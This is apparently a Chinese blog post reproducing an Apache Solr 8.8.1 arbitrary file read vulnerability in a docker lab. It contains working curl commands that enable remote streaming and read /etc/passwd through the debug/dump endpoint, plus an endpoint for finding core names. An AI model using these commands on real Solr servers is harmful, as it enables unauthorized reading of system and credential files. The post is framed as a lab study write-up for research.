 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/aZX_EYv5f0l_jM-XQpbHTw)

Apache Solr 在前两天爆出来了个任意文件读取漏洞，而且官方拒绝修复。所以这里就快速复现一下吧，顺便将复现时候遇到的坑也记录一下。  

01

—

环境搭建

  
第一步总是要搭环境的，所以这里为了方便选取了使用 docker。

这里以目前最新的 Apache Solr 8.8.1 为例，

首先拉取镜像，这里自动就会拉取最新的版本：

```
docker pull solr
```

启动容器：

```
docker run --name solr-8.8.1 -p 8983:8983 -itd solr
```

之后访问本地 8983 端口可以看到相关管理页面

![](https://mmbiz.qpic.cn/mmbiz_png/e9icbmGX0KNIibKH6Kb4Miaqn4TbN5sPN93MR8n4UFW3neiazG6Uv9S5E7Q1iayBmia5ibIFWibTibX7iaUqycszLgP9qZTw/640?wx_fmt=png)

但此时如果直接使用 poc 去尝试是会出现 404 的错误  

![](https://mmbiz.qpic.cn/mmbiz_png/e9icbmGX0KNIibKH6Kb4Miaqn4TbN5sPN93LYFgpTvrUNbYxsWeQr12DbHzibs4ibsumG2hdkP7vMESOvR3jfqRPKXw/640?wx_fmt=png)

这是由于 core 没安装导致，这里可以尝试安装一个 core。

![](https://mmbiz.qpic.cn/mmbiz_png/e9icbmGX0KNIibKH6Kb4Miaqn4TbN5sPN93ZqX7u2zfVmIIThlMibWzTDebeKdJVKgqJUJ0b7jeBNet0D7LhrCPYgg/640?wx_fmt=png)

但当直接添加 core 时会看到报错，这里是由于 new_core 目录下缺少配置文件，不过 solr 自带了一些默认配置文件的 sample，就是我们在首页看到的那些。

![](https://mmbiz.qpic.cn/mmbiz_png/e9icbmGX0KNIibKH6Kb4Miaqn4TbN5sPN93do8GNS7lrRvk7ldfiajDup0OsS3PuQSvw6MdWG2szf9ZianKAC3RZ50Q/640?wx_fmt=png)

可以直接将相关的配置文件拷过去使用，首先进入交互模式：

```
docker exec -it solr-8.8.1 /bin/bash
```

然后复制过去：

```
cp -r /opt/solr/server/solr/configsets/_default/conf /var/solr/data/new_core/
```

此时再 add core 就可以成功了

02

—

POC 复现‍

根据上述就完成了环境配置，

如果此时直接读文件是无法读取的。

![](https://mmbiz.qpic.cn/mmbiz_png/e9icbmGX0KNIibKH6Kb4Miaqn4TbN5sPN93hGRTRECHtwLuiacxwia2HLkuDs958jH3Agibia4BJ2kdFN8j2tibrCib73ag/640?wx_fmt=png)

这时需要先开启相关配置

```
curl -d '{  "set-property" : {"requestDispatcher.requestParsers.enableRemoteStreaming":true}}' http://127.0.0.1:8983/solr/your_core_name/config -H 'Content-type:application/json'
```

![](https://mmbiz.qpic.cn/mmbiz_png/e9icbmGX0KNIibKH6Kb4Miaqn4TbN5sPN93WR6qNkHWKY1p9sWQHumHZSHNd44k9orLiauUflngNcX5DrCU5DJFHiag/640?wx_fmt=png)

开启之后即可读取任意文件

```
curl "http://127.0.0.1:8983/solr/your_core_name/debug/dump?param=ContentStreams" -F "stream.url=file:///etc/passwd"
```

![](https://mmbiz.qpic.cn/mmbiz_png/e9icbmGX0KNIibKH6Kb4Miaqn4TbN5sPN93N2lQeS7iaicDNQHh8gu5qIribmQPKS3U82Bypxr7on6B0bukLTvn0gnrg/640?wx_fmt=png)

 可以看到这里是访问的我们刚才那个 core 的名字，那如何自动去获取到 core 名字呢。  

那这里的 Core name 就可以通过这个接口来查询

```
/solr/admin/cores?indexInfo=false&wt=json
```

在返回的数据中即可看到刚才创建时的 core name  

****本演示仅用于学习和研究，请在实验环境中运行，请勿用于其他任何非法用途，否则后果自负！****

  

**-------- 快上车就完事了** ****--------****

**hijackY**∣来一起共同成长

![](https://mmbiz.qpic.cn/mmbiz_jpg/e9icbmGX0KNKLYibllm0vwqLm2KFMDQ6KSSACFu3jicG1ibqMkicQpzkCPaISRMMWucJyJPgFIOHWy3lGS820p25POw/640?wx_fmt=jpeg)

识别二维码，快上车就完事了

也可 **赞赏** **转发** **在看****↘**